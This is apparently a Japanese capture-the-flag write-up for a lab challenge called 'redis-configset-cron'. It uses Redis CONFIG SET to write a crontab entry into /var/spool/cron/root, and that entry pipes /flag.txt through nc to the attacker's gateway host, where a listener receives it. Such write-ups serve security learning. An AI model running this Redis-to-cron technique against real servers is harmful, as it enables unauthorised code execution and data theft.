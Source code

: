 # redis-configset-cron

## 解き方

gatewayにconnect backする必要があるため、IPアドレスを調べておく

```
$ ip a
root@gateway:/# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc noqueue state UP group default qlen 1000
    link/ether 0a:0a:5b:7f:7b:bb brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.168.185.89/19 brd 192.168.191.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::80a:5bff:fe7f:7bbb/64 scope link
       valid_lft forever preferred_lft forever
```

このケースでは192.168.185.89で通信できる

cronにncでflagを飛ばすコマンドをセット

```
$ redis-cli -h redis-cron
127.0.0.1:6379> config set dir /var/spool/cron/
OK
127.0.0.1:6379> config set dbfilename root
OK
127.0.0.1:6379> set payload "\n*/1 * * * * /bin/cat /flag.txt | /usr/bin/nc 192.168.185.89 10000\n"
OK
127.0.0.1:6379> save
OK
```

あとはgateway上でncで待ち受けるだけ

```
$ nc -l 10000
flag{why_1s_my_cr0nt4b_n0t_w0rking}
```


## 備考
SLAVEOF/REPLICAOFのやり方でとかれないようにコマンドをを無効にしている (redis.conf参照）
